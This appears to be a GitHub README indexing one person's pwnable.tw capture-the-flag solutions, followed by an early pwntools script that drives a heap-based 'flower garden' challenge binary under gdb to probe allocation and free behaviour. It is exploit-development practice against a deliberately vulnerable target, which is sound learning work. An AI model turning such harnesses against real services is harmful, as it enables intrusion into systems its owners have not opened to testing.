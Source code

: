 # PWNABLE.TW

>Author: Nigma

- #### Link pwnable.tw profile: [https://pwnable.tw/user/30002](https://pwnable.tw/user/30002)

## List challenge solved

|    Số thứ tự    |  Thử thách  | Writeup                                                       | Hoàn thiện |
| :-------------: | :---------: | :-----------------------------------------------------------: |:----------:|
|       01        |    Start    | [Start](./1_Start)                                            |✅         |         
|       02        |     orw     | [orw](./2_orw)                                                |✅         |
|       03        |CVE-2018-1160| [CVE-2018-1160](./3_CVE-2018-1160)                            |❌         |
|       04        |    calc     | [calc](./4_calc)                                              |✅         |
|       05        |    3x17     | [3x17](./5_3x17)                                              |✅         |
|       06        |  dubblesort | [dubblesort](./6_dubblesort)                                  |✅         |
|       07        |  hacknote   | [hacknote](./7_hacknote)                                      |✅         |
|       08        |Silver Bullet| [Silver Bullet](https://github.com/NigmaZ/Pwnable/tree/main/Pwnable.tw/8_Silver%20Bullet)                            |✅         |
|       09        |  applestore | [applestore](./9_applestore)                                  |✅         |
|       10        |   Re-alloc  | [Re-alloc](./10_Re-alloc)                                     |❌         |


```python
#!/usr/bin/env python3
from pwn import *
# p = remote('chall.pwnable.tw', '10203')

elf = ELF('./vuln')
libc = ELF('./libc.so.6')
context.update(binary=elf, log_level='DEBUG')
p = elf.process()
gdb.attach(p, '''
	breakrva 0x10ba
	breakrva 0x10c6
	breakrva 0x10d2
	breakrva 0x10de
''')
# v0 - check flower is existing
# v0[1] - name flower
# v0[2] - color flower // 24

def raiseFlower(length, name, color): 
	p.sendlineafter(b'choice : ', b'1')
	print(p.recvuntil(b'name :'))
	p.sendline(str(int(length)).encode())
	print(p.recvuntil(b'flower :'))
	p.sendline(name)
	print(p.recvuntil(b'flower :'))
	p.sendline(color)
	return

def listFlower():
	p.sendlineafter(b'choice : ', b'2')
	return

def removeFlower(idx):
	p.sendlineafter(b'choice : ', b'3')
	print(p.recvuntil(b'garden:'))
	p.sendline(str(int(idx)).encode())
	return

def deleteGarden():
	p.sendlineafter(b'choice : ', b'4')
	return

raiseFlower(0x100, b'A' * 0x10, b'B' * 0x10)
raiseFlower(0x100, b'C' * 0x10, b'D' * 0x10)
raiseFlower(0x100, b'E' * 0x10, b'F' * 0x10)

listFlower()
removeFlower(1)
listFlower()

deleteGarden()
raiseFlower(0x100, b'A' * 0x10, b'B' * 0x10)

p.interactive()

```
